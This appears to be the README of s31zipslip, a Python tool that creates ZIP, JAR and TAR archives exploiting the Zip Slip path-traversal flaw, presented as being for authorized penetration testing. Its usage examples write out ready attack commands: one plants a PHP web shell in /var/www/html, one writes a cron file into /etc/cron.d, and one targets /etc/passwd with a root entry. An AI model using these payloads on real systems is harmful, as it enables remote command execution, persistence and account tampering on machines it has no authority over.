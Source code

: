 # s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## Installation

```bash
# Clone the repository
git clone https://github.com/s31frc3/s31zipslip.git
cd s31zipslip

# Or download the script directly
wget https://raw.githubusercontent.com/s31frc3/s31zipslip/main/s31zipslip.py
```

## 🛠️ Requirements

- Python 3.6+
- No external dependencies (uses standard library modules)

## 📋 Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Create a basic test archive:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive with PHP shell content:**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar) 
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../`). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

